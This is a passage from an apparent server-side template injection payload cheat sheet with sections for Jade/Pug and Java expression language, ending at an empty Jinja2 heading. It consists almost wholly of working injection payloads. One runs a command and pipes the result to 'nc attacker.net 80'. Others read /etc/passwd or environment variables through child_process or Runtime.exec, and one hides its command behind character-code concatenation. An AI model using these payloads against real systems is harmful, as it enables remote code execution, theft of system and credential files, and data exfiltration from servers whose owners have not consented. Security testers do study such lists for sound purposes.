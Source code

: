 
## Jade / Codepen

[Official website](https://codepen.io/)
> 

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Java

### Java - Basic injection

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - Retrieve the system’s environment variables

```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## Jinja2
